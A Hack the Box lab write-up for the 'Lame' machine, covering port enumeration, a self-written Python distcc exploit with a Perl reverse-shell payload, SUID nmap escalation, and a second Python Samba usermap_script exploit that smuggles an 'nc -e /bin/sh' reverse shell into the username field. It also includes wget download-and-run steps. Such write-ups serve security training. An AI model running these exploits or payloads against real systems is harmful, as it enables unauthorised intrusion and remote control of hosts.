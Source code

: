 ```yaml
---
title: Lame
tags: linux
description: Write-up for Hack the Box - Lame
---
```


![image](assets/79371199-f89e6580-7f21-11ea-8c03-537738c623e5.png)

## Overview
Lame is an Ubuntu 8.04 box running distcc which is a tool designed to speed up code compilation by sending code to compile to other networked computers. This service was exploited to get the initial shell by sending a shell command padded with additional strings to make the compiler think it was getting a compile request but instead created a reverse shell. I escalated privileges to root by taking advantage of nmap which had the suid permission set. There is an alternate path to root which allowed commands to be run when the username map script smb.conf option is enabled.

## Enumeration

**Software**

* vsFTPd 2.3.4
* OpenSSH 4.7p1
* smbd 3.0.20-Debian
* distccd v1 (GNU) 4.2.4
* Ubuntu 8.04
* Sudo version 1.6.9p10
* mysql  Ver 14.12 Distrib 5.0.51a, for debian-linux-gnu (i486) using readline 5.2

**Port Scan**

```
nmap -sT -sV -Pn -n -p-  10.10.10.3 -oN /root/boxes/lame/_full_tcp_nmap.txt
```

* 21/tcp - ftp
* 22/tcp - ssh
* 139/tcp - samba smbd
* 445/tcp - samba smbd
* 3632/tcp - distccd

**SMB**

```
smbclient -L //10.10.10.3 -N
```

![image](assets/82768075-819a9d80-9dfa-11ea-961e-600e3e174d01.png)

## Steps (user)

Looking at the port scan I noticed that vsftpd 2.3.4 was running on port 21.  This version is known to have a backdoor that opens port 6200 on the target when a ":)" is appended to the username. I attempted this but for whatever reason the target did not seem vulnerable to so I moved on.

I used the smbclient tool to browse the smb shares to see if I could find any useful information.  I didn't find anything useful but I was able to write to /tmp, noting this for later.

```
smbclient //10.10.10.3/tmp -N
```

![image](assets/82768560-c70c9a00-9dfd-11ea-9701-fd855e4d47b7.png)

Next I looked at port 3632 running [distcc](https://distcc.github.io/) which is a tool for speeding up compilation of source code by using distributed computing over a network. Running a search in searchsploit for distcc returned one result.

![image](assets/82844230-c59aaa80-9ead-11ea-8581-fd407f15ed63.png)

Looking into the exploit, it appears to send a shell command and some additional strings to trick the service into thinking it's a compile operation.  The exploit was written in ruby for Metasploit and I decided to write my own in python instead.

```python
#!/usr/bin/python3
# Distcc Daemon Exploit
# Based on the Metasploit Exploit https://www.exploit-db.com/exploits/9915

import socket
import random
import string
import argparse

def dist_cmd(*argv):
    
    # Convince distccd that this is a compile
    argv = argv + ('#','-c','main.c','-o','main.o')
        
    # Set distcc 'magic fairy dust' and argument count
    res = "DIST00000001" + "ARGC" + (str(len(argv))).zfill(8)
    
    for arg in argv:
        res += "ARGV" + (str(hex(len(arg))).strip("0x")).zfill(8) + arg

    return res

def exploit(lhost,lport,rhost,rport):

    payload = """perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,""" + '"' + lhost + ":" + lport + '"' + """);STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'"""

    # connect the client
    print("[*] Connecting to target...")
    c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    c.connect((rhost, rport))

    # Sending payload
    print("[*] Sending payload...")
    distcmd = dist_cmd("sh", "-c", payload)
    c.send((distcmd).encode('utf-8'))

    # Sending Second Payload
    print("[*] Sending second payload...")
    randomstr = ''.join(random.choices(string.ascii_letters + string.digits, k=10))
    c.send(('DOTI0000000A' + randomstr).encode('utf-8'))

    #receive
    r = c.recv(4096)
    print("[*] Server Response => " + (r).decode('utf-8'))
    c.close

def main(): 

    print("Distcc Daemon Exploit")
    parser = argparse.ArgumentParser(description="Distcc Daemon Exploit")
    parser.add_argument("-l", "--lhost", type=str, help="Local IP to listen on", default="127.0.0.1", required=True)
    parser.add_argument("-p", "--lport", help="Local port to listen on", default=1234, required=True)
    parser.add_argument("-r", "--rhost", type=str, help="IP of remote host", default="1.2.3.4", required=True)
    parser.add_argument("-t", "--rport", help="Port of remote target", default=3632)

    args = parser.parse_args()
    
    lhost = args.lhost
    lport = args.lport
    rhost = args.rhost
    rport = args.rport

    exploit(lhost,lport,rhost,rport)

if __name__ == '__main__':
    main()


```

I set up a netcat listener on port 4200 (nc -lvnp 4200) and ran the script. I received a callback and shell as user "daemon".

```
./distcc-exploit.py --lhost 10.10.14.29 --lport 4200 --rhost 10.10.10.3
```

![image](assets/82901139-827f1c80-9f2b-11ea-8ebf-4486b0661f40.png)

## Steps (root/system)

Linenum was copied to my working directory, and apython http server started in preparation to transfer the file to the target.
```
cp ~/tools/LinEnum/LinEnum.py le.sh
python3 -m http.server 80
```

On the target I used wget to download and run LinEnum

```
wget http://10.10.14.29/le.sh
chmod +x ./le.sh && ./le.sh
```

Reviewing the results of LineEnum, Under "Possibly Interesting SUID files", nmap was listed. This can be used to escalate privileges.

![image](assets/82844423-638e7500-9eae-11ea-8524-54a6014599e4.png)

> SUID is a special type of file permissions set on a file. Normally when a program runs it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.

I ran "nmap --interactive" followed by "!sh" to get shell as root

![image](assets/82844463-97699a80-9eae-11ea-972e-1a3d24f93801.png)


## Steps (root/system) - Alternate

There is a direct path to route by exploiting a flaw in Samba 3.0.20 < 3.0.25rc3 by executing arbitrary commands via shell metacharacters when the username map script smb.conf option is enabled. I created a script to automate the exploit and create a reverse shell.

```python
#!/usr/bin/python3
from smb.SMBConnection import SMBConnection
import argparse

def exploit(lhost,lport,rhost,rport):
    
    # Simple netcat reverse shell payload
    payload = "nc -e /bin/sh " + lhost + " " + lport

    # Send the commands + payload via using ntlmv1 to target host
    username = "/=`nohup " + payload + "`"
    password = "anything"
    conn = SMBConnection(username, password, "myname", "remotename", use_ntlm_v2 = False)
    assert conn.connect(rhost, int(rport))

def main():
    
    print("Samba Usermap Script Exploit")
    parser = argparse.ArgumentParser(description="Samba Usermap Script Exploit")
    parser.add_argument("-l", "--lhost", type=str, help="Local IP to listen on", default="127.0.0.1", required=True)
    parser.add_argument("-p", "--lport", help="Local port to listen on", default=1234, required=True)
    parser.add_argument("-r", "--rhost", type=str, help="IP of remote host", default="1.2.3.4", required=True)
    parser.add_argument("-t", "--rport", help="Port of remote target", default=139, required=True)

    args = parser.parse_args()
    
    lhost = args.lhost
    lport = args.lport
    rhost = args.rhost
    rport = args.rport

    exploit(lhost,lport,rhost,rport)

if __name__ == '__main__':
    main()

```

I set up a netcat listener (nc -lvnp 4200) and ran the script. I received a callback and shell as root.

```
./samba-usermap-script.py --lhost 10.10.14.29 --lport 4200 --rhost 10.10.10.3 --rport 139
```

![image](assets/82898751-d1c34e00-9f27-11ea-99cf-f4af6b04b6dd.png)
